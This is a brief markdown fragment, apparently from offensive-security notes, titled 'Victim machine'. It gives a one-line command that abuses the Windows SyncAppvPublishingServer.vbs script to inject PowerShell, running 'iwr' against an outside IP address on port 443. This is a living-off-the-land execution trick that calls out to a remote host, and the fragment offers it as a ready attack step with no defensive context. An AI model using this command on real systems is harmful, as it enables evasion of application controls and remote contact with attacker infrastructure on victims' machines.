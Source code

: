 # Victim machine
- Run powershell script by abusing SyncAppvPublishingServer
```bash
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```
